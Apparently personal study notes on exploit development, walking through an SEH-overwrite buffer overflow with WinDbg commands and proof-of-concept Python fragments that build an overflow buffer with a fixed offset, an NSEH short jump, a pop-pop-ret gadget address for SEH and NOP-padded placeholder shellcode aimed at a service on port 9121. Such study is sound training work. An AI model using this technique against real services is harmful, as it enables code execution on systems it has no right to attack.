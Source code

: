 If a small jump is needed to escape some junk code like `lock ...` (causing access violation), assembl the instruction from the current place of the assembly
```
a
jmp 0x018fff5c
u eip L1 # this will give the opcode
```
The upcode will be addes for the NSEH before the SEH handler
The new pow becomes 
```
try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    inputBuffer = b"\x41" * 124 # (offset - 4)
    inputBuffer+= pack("<L", (0x06eb9090)) # (NSEH)
    inputBuffer+= pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
    inputBuffer+= b"\x42" * (size - len(inputBuffer))
```

The shellcode is not fully taken after the SEH handler ? Check if **all** the shellcode is appearing and which part is taken 
```
dd eip L30
!teb # and compare the Stack base with the first eip address
```
If not, search the stack and see if we can find all the shellcode (with dummy and unique value for search: here will be ... 90 90 90 90 41 41 41 41 ...)

The new pow
```
try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    shellcode = b"\x43" * 400
    inputBuffer = b"\x41" * 124
    inputBuffer+= pack("<L", (0x06eb9090)) # (NSEH)
    inputBuffer+= pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
    inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode)) #the most important part
    inputBuffer+= shellcode
```
We can perform a search for the NOP instructions followed by the bytes contained in our shellcode variable **right after taking our short jump of NSEH (0x06eb9090)**

```
!teb
s -b 01aee000 01af0000 90 90 90 90 43 43 43 43 43 43 43 43 # 01aee000 being the stacklimit printed by teb and 01af0000 the stackbase

dd 01aefc70 L65 #01aefc70 being the result of the search
```
